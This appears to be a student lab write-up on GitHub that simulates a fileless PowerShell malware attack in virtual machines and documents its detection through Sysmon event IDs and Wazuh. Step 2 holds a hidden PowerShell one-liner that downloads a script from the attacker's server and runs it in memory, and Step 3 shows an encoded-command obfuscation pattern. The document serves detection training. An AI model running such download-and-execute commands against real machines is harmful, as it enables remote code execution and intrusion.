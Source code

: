 # Phase 3 – Scenario 1: Fileless Malware with PowerShell

## 🎯Objective:
Simulate and detect a fileless malware attack using PowerShell to execute a remote script payload without writing files to disk.

---

## Environment:
- **Victim**: Windows 10 (VMware)
- **Attacker**: Kali Linux (VirtualBox)
- **SIEM**: Wazuh (Amazon Linux OVA)

---

## Attack Simulation Steps:

### Step 1: Host the Payload on Kali
```bash
echo "Write-Output 'This is a simulated attack'" > fakepayload.ps1
sudo python3 -m http.server 8080
```
![](https://github.com/alj-v/cyber-intern-phase-3/blob/main/screenshots/hint01_fileless_malware_network_connection.png)

### Step 2: Run Fileless Payload on Windows
```powershell
powershell -nop -w hidden -c "IEX (New-Object Net.WebClient).DownloadString('http://<Kali-IP>/fakepayload.ps1')"
```
![](https://github.com/alj-v/cyber-intern-phase-3/blob/main/screenshots/hint01_fileless_malware_simulation.png)
> (Window closed automatically due to the -w hidden flag. Screenshot taken before execution for simulation purpose.)

### Step 3: Simulate Obfuscated Payload (Base64)
```powershell
powershell -EncodedCommand <Base64_Payload>
```
![](https://github.com/alj-v/cyber-intern-phase-3/blob/main/screenshots/hint01_fileless_malware_simulation_b64.png)

---

## Detection Logs:
Sysmon Logs:
- Event ID 1 (Process Creation)
  - Shows powershell.exe with suspicious flags (-nop, -EncodedCommand)
![](https://github.com/alj-v/cyber-intern-phase-3/blob/main/screenshots/hint01_fileless_malware_simulation_sysmon1_log.png)
  - Captured by Wazuh
![](https://github.com/alj-v/cyber-intern-phase-3/blob/main/screenshots/hint01_fileless_malware_simulation_wazuh_log.png)
- Event ID 3 (Network Connection)
  - PowerShell connecting to Kali server (via port 8080)
  - Captured locally, not reflected in Wazuh dashboard (limitation)
![](https://github.com/alj-v/cyber-intern-phase-3/blob/main/screenshots/hint01_fileless_malware_simulation_sysmon3_log.png)
- Event ID 10 (Script Block Logging)
  - Not observed (expected with -EncodedCommand)
- Event ID 4104 (PowerShell Logging)
  - Logged when running encoded payload
  - Confirms execution of base64-decoded script
![](https://github.com/alj-v/cyber-intern-phase-3/blob/main/screenshots/hint01_fileless_malware_simulation_powershell_log4104.png)
![](https://github.com/alj-v/cyber-intern-phase-3/blob/main/screenshots/hint01_fileless_malware_simulation_powershell_log.png)

---

#### ⚠️Limitations:
- Wazuh agent misses Event ID 3 logs due to preconfigured Amazon Linux OVA limitations
- Network connection logs seen only in local Event Viewer
- PowerShell window closes automatically with -w hidden, screenshot taken before execution

---

#### Interview Notes:
Q: How do you detect fileless malware in Windows?
A: Monitor:
- Event ID 1: Look for PowerShell with suspicious arguments
- Event ID 3: Watch for outbound connections to external IPs
- Event ID 4104: Decode obfuscated commands
- Use SIEM like Wazuh/ELK to correlate behaviors.
